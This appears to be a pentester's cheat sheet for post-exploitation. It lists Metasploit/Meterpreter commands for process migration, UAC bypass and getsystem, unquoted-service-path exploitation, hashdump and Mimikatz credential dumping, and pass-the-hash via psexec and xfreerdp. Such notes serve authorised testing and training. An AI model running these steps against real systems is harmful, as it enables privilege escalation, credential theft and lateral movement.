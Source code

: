 # Stable
## MSF Migrate
* `migrate` to a process that has higher chances of not being killed (e.g. from browser processes to system processes)
* `run <double_tabs>` - select meterpreter scripts

# Privileged
## Windows Privilege Escalation
#### Metasploit
* `meterpreter> getsystem` - doesn't work when UAC is enabled and user is not admin
* `meterpreter> post/windows/gather/win_privs` - check UAC enabled
* `msf> search bypassuac` - `use` module, `set` configs and `exploit`
  * `meterpreter> getsystem` - will work if user on the new session is admin (with UAC enabled also)
* `meterpreter> use incognito` - use commands from this module (e.g. _list_tokens_)

#### General
* unquoted service paths
  * `wmic service get name,displayname,pathname,startmode | findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """` - find unquoted services
  * `msf> use exploit/windows/local/trusted_service_path` - module for exploiting unquoted path vulnerable instances

## Linux Privilege Escalation
* SUDO - https://gtfobins.github.io/
* SUID - https://gtfobins.github.io/#+suid
* Replace executable
* crontab
* root squashing

# Persistent
## Hashes
* `meterpreter> run hashdump` - if it crashes (elevate privileges or migrate to another process)
* pass-the-hash -> `use exploit/windows/smb/psexec` - works with administrator account (possible issues with users in Admin group, but not Administrator)
* pass-the-hash over RDP -> `xfreerdp /u:<user> /d:<domain> /pth:<token> /v:<target>`

#### Mimikatz
* `sysinfo` - check on which processes meterpreter runs. It needs to be x64 for Mimikatz
* `ps -A x86_64 -s` list SYSTEM processes on x64 architecture
* `migrate <PID>` - migrate to a x64 processes
* `load mimikatz`
